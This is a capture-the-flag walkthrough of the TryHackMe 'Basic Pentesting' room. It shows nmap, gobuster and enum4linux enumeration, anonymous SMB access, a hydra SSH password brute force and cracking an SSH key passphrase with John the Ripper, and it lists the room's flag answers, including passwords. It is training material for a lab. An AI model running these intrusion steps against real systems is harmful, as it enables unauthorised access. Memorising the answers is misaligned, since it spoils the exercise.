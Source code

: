 ## Basic Pentesting - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/basicpentestingjt)

**IP: 10.10.209.113**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Penetration Testing Fundamentals <br>

**Tools Used**: Nmap, Hydra, Gobuster, enum4linux, John The Ripper

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap scan as always.
  ```
  nmap -A -p- 10.10.209.113
  
  open ports:
  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
  80 -> Apache httpd 2.4.18 ((Ubuntu))
  139 -> Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445 -> Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
  8009 -> Apache Jserv (Protocol v1.3)
  8080 -> Apache Tomcat 9.0.7
  
  Host script results:
  | smb2-time: 
  |   date: 2025-04-23T18:25:37
  |_  start_date: N/A
  | smb-os-discovery: 
  |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
  |   Computer name: basic2
  |   NetBIOS computer name: BASIC2\x00
  |   Domain name: \x00
  |   FQDN: basic2
  |_  System time: 2025-04-23T14:25:37-04:00
  | smb-security-mode: 
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required
  |_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
  |_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
  ```
  
- Now looking for hiddent assets with Gobuster.
  ```
  gobuster dir -u http://10.10.209.113 -w=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
  /development
  ```
  
- When I visited `http://10.10.209.113/development` I found two files: dev.txt and j.txt. Let's check them real quick.
  ```
  dev.txt 

  2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
  to host that on this server too. Haven't made any real web apps yet, but I have tried that example
  you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
  using version 2.5.12, because other versions were giving me trouble. -K
  
  2018-04-22: SMB has been configured. -K
  
  2018-04-21: I got Apache set up. Will put in our content later. -J

  j.txt 

  For J:
  
  I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
  and I was able to crack your hash really easily. You know our password policy, so please follow
  it? Change that password ASAP.
  
  -K
  ```

- Since I work with `samba` let's enumerate that as well.
  ```
  enum4linux -a 10.10.209.113
  Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
  [+] Attempting to map shares on 10.10.209.113
  
  //10.10.209.113/Anonymous       Mapping: OK Listing: OK Writing: N/A
  ```

---

## 🧍 User Privilege Escalation

- Found share named `Anonymous` with `enum4linux`, connect to that share with `smbclient`.
  ```
  smbclient //10.10.209.113/Anonymous
  ```
  
- I'm in legoooo! Looking for more info, found `staff.txt`, downloaded it and checked it.
  ```
  get staff.txt
  cat staff.txt 
  ```
  
- Perfect, I found users Jan and Kay, so they added notes on development page as J. and K.

- Now moving to brute forcing since I already found Jan as valid username.
  ```
  hydra -l jan -P /rockyou.txt -t 16 -I 10.10.209.113 ssh
  ``` 

- Perfect, now I have Jan's password which is `armando`. The last thing I have to do is to find Kay's password.

---

## 👑 Root Privilege Escalation

- Now I connected to target machine with SSH as Jan and then tried to get Kay's password. Kay's password is in the file `pass.bak` which I couldn't check due to permission control.
  ```
  ssh jan@10.10.209.113
  armando

  cd home/kay
  ls -al
  
  cd .ssh
  
  ls -al
  id_rsa
  id_rsa.pub
  ```
  
- Found `id_rsa` which is the key for last flag. Download it, convert it to hash and crack the hash, change its permission and connect again with it as user Kay.
  ```
  ssh2john id_rsa > kay_id_rsa.hash
  
  john --wordlist=/rockyou.txt kay_id_rsa.hash
  beeswax (id_rsa)
  
  chmod 600 id_rsa
  
  ssh -i id_rsa kay@10.10.209.113
  passphrase: beeswax
  ```
  
- Awesome! I'm in as Kay, let's check the `pass.bak` file for the last flag.
  ```
  cat pass.bak
  heresareallystrongpasswordthatfollowsthepasswordpolicy$$
  ```

---

## 🏁 Flags

- **What is the name of the hidden directory on the web server(enter name without /)?**: `development`
- **What is the username?**: `jan`
- **What is the password?**: `armando`
- **What service do you use to access the server(answer in abbreviation in all caps)?**: `SSH`
- **What is the name of the other user you found(all lower case)?:** `kay`
- **What is the final password you obtain?**: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing, just sharpening my skills.`

- What did I learn?
  `Nothing, just sharpening my skills.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
